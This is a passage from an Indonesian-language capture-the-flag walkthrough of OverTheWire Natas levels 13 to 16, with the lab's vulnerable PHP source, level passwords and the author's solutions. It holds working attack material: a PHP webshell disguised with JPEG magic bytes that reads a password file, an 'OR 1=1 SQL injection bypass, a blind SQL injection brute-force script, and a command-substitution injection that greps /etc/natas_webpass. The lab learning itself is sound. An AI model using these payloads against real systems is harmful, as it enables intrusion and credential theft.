    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
 
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Terdapat sebuah variabel target_path yang menyimpan function bercabang makeRandomPathFromFilename dan makeRandomPath

Function makeRandomPathFromFilename akan melakukan pengecekan kepada extension dari file yang di upload yang defaultnya adalah jpeg dan passing value dir dan ext ke makeRandomPath

Function makeRandomPath bertugas mereturn sebuah value tempat file akan disimpan di directory upload

lebih tepatnya file akan tersimpan pada “upload/(random string berjumlah sepuluh character dari list alphanumeric).jpeg”

Namun hal yang berbeda dari natas13 adalah terdapat pengecekan tipe file menggunakan exif pada

```
exif_imagetype($_FILES['uploadedfile']['tmp_name'])
```


Kita mengetahui bahwa cara kerja dari exif_imagetype adalah dengan melakukan pengecekan byte pertama sebuah image untuk memastikan file tersebut adalah image. Jika exif_imagetype tidak mendapatkan byte yang cukup untuk dibaca maka, value yang di return adalah false.

Namun pengecekan tipe file seperti ini pun masih dapat kita lewati dengan menggunakan beberapa tools untuk mengedit byte di sebuah file seperti hexed.it

Kita akan menggunakan hexed.it untuk mengedit atau menambahkan magic number pada header sebuah file. Mari kita cari tahu apakah header yang sesuai untuk dimasukkan kedalam file header tipe jpeg.

Penulis menggunakan sumber dari [web ini](https://www.garykessler.net/library/file_sigs.html)


Kita menemukan sebuah header yang cocok untuk digunakan dalam file header kita. Memiliki awalan berupa FF D8 dan trailer FF D9

Mengapa ada awalan dan trailer? Awalan merupakan sebuah tanda bahwa image file akan mulai dari byte setelah itu dan berakhir sebelum trailer byte nya.

Maka secara logika, step-step yang akan kita lakukan antara lain :

Membuat sebuah text file yang berisi code php untuk kita sisipkan nanti yang bertugas untuk mengeluarkan konten etc/natas_webpass/natas14

```
<?php
$pass= `cat /etc/natas_webpass/natas14`;
echo $pass;
?>
```

Tetapi jika kita mensubmit file ini, kita akan tidak akan bisa melewati pengecekan exif_imagetype.

Maka mari kita menambahkan 4 byte pertama dari magic number jpeg di file text yang sudah kita buat tadi.


FF D8 akan menunjukkan file image kita telah mendapatkan header pembuka dan langsung ditutup dengan FF D9. Sisanya adalah payload kita. Mari kita submit file kita.

Jangan lupa nyalakan burpsuite untuk mengganti nama file menjadi *.php


File sukses ter-upload dan tereksekusi


# Level 14
[http://natas14.natas.labs.overthewire.org/](http://natas14.natas.labs.overthewire.org/)

natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

Challenge ini berdasarkan vulnerability SQL Injection untuk melakukan login bypass

Melihat source codenya kita bahkan diberikan query SQL yang dijalankan

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "<censored>" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Maka kita tinggal menambahkan payload legendaris "OR 1=1-- -


Level selanjutnya bisa dikerjakan


# Level 15
[http://natas15.natas.labs.overthewire.org/](http://natas15.natas.labs.overthewire.org/)

natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J


Diberikan sebuah tampilan form dengan input Username dan button Check existence.

Mari kita coba memasukkan input “a”


Setelah mencoba beberapa kali, penulis berhasil menemukan user yang exist di database yaitu Natas16, namun nampaknya tidak ada user Natas lain yang bisa ditemukan di database.

Melihat ke source codenya

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?
 
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/
 
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
 
    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }
 
    mysql_close($link);
} else {
?>
 
<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Kita diberikan sebuah source code dengan query ke database mysql. Penulis menyimpulkan bahwa database berisi Username dan Password. Hal pertama yang perlu diperhatikan adalah didalam querynya terdapat tulisan where username. Penulis mengetahui ada kolom lain bernama password karena setiap masuk ke web Natas kita akan dimintai Username dan Password.

Sehingga kesimpulannya adalah kita harus melakukan blind sqli untuk menentukan password Natas16.

Untuk memiliki pemahaman yang lebih dalam, mari kita mengetes melalui request method GET dan menambahkan debug. Untuk melihat bentuk querynya.


Mari kita membuat sebuah script python untuk mengautomasikan blind sqli dengan memanfaatkan fitur mysql LIKE dimana akan dilakukan pengecekan per character.

```
#!/usr/bin/env python3
 
import requests
import string
 
url = "http://natas15.natas.labs.overthewire.org/index.php?"
user = "natas15" 
pw = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"
 
charset = string.ascii_lowercase+string.ascii_uppercase+string.digits
 
loop=True
final= ""
while loop:
	loop=False
	for char in charset:
		param = {'username' : 'natas16" and password LIKE BINARY "'+final+char+'%"#'}
		req = requests.post(url,data=param,auth=(user,pw))
		if 'This user exists.' in req.text:
			final += char
			print('Progress : '+final)
			loop=True
			break
```

Kita akan melakukan bruteforce dengan query LIKE dan wildcard untuk mendapatkan password natas16 secara perlahan, per character. Penulis mendapatkan pelajaran penting pula dari picoCTF2018 A Simple Question yang juga merupakan blind sqli, bahwa untuk mendapatkan hasil yang diinginkan lebih akurat dalam artian sampai ke kapital atau non kapital characternya, perlu dicocokkan secara BINARY. Sehingga tidak perlu menebak nebak lagi capital non capitalnya. Mari kita run solver scriptnya.


# Level 16
[http://natas16.natas.labs.overthewire.org/](http://natas16.natas.labs.overthewire.org/)

natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh


Nampaknya kita pernah menemukan soal natas yang ini di challenge sebelumnya, mari kita coba berikan input.


Nampaknya benar, web ini digunakan sebagai sebuah dictionary berbasis regex.

Mari kita coba cek source code nya

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">
 
For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>
 
 
Output:
<pre>
<?
$key = "";
 
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
 
if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>
 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Tetapi, pada challenge kali ini ada beberapa character yang di ban yaitu /[;|&\'”]/ dan backticks, penulis tidak menambahkan simbol backticks karena alasan formating di blog ini, sehingga kita tidak bisa menggunakan cara yang dulu kita gunakan.

Perlu diperhatikan juga kali ini kutip yang ada pada passthru sudah di escapestring sehingga tidak dapat kita end quotes dan memulai command grep baru seperti teknik di challenge yang lalu.

Pada challenge ini, penulis akan menggunakan teknik yang mirip dengan Natas15, pada Natas15 kita menggunakan teknik blind sqli. Pada challenge ini kita akan menginterogasi website dengan sejumlah pertanyaan. Apakah suatu kata, exists dalam dictionary yang disediakan.

Kita tidak diperbolehkan menggunakan backticks untuk mengexecute command, namun masih ada 1 cara lain yaitu menggunakan $(*command*) , apakah yang dimaksud $() ? Itu merupakan sebuah command substitution. Fungsinya sama dengan  backticks, ia akan mereturn value dari command yang disediakan.

Dapat dibaca referensi command substitution dari sini

https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html

Jadi konsep penyelesaian ini adalah kita akan melakukan grep dari folder etc/natas_webpass/natas17 untuk mendapatkan password untuk natas17

Untuk sekarang, mari kita asumsikan bahwa password dari natas 17 adalah ABCDEFGH

Maka jika kita melakukan get requests dari urlnya seperti ini

```
http://natas16.natas.labs.overthewire.org/?needle=Africans&submit=Search
```


Kita mendapatkan 1 result yang kita cari dari dictionary, kita mencari Africans, maka output yang ditampilkan adalah kata Africans yang memang ada di wordlist dictionary.

Namun jika kita mengganti request yang tadi dengan ditambahkan command grep kita dengan contoh

```
http://natas16.natas.labs.overthewire.org/?needle=Africans$(grep ^A /etc/natas_webpass/natas17)&submit=Search
```

Apa yang dimaksud dengan grep ^A ?

Berarti kita akan melakukan grep dengan regex, mencari yang awalannya A.

Jika kita memiliki sebuah file yang berisi

ABCDEFG

JKLMNOP

QRSTUVW

Maka saat kita lakukan grep ^A dari file tersebut, yang ter output hanya ABCDEFG

Maka yang tadinya kita request dan berhasil yaitu

passthru(“grep -i \”Africans\” dictionary.txt”);

akan menjadi

passthru(“grep -i \”Africans$(grep ^A /etc/natas_webpass/natas17)\” dictionary.txt”);

passthru(“grep -i \”AfricansABCDEFGH\” dictionary.txt”);

Sehingga, web tidak akan menampilkan kata apa-apa karena tidak ada kata AfricansABCDEFGH di wordlist yang disediakan. Dari sini, kita bisa menyimpulkan, bahwa password natas17 memiliki awalan A.

Mari kita buat sebuah script python untuk merepetisisi pertanyaan interogatif ke website tersebut untuk mencari password natas17 sampai lengkap, penulis membuat script seperti

```
#!/usr/bin/env python3
import requests
import string
 
 
user = "natas16"
pw = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"
 
charset = string.ascii_lowercase+string.ascii_uppercase+string.digits
 
loop=True
flag=""
 
while loop:
	loop=False
	for char in charset:
		r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=Africans$(grep ^'+flag+char+' /etc/natas_webpass/natas17)&submit=Search',auth=(user,pw))
		if 'Africans' not in r.text:
			flag+=char
			print('Current Flag : '+flag)
			loop=True
			break
```


# TO BE CONTINUED -->

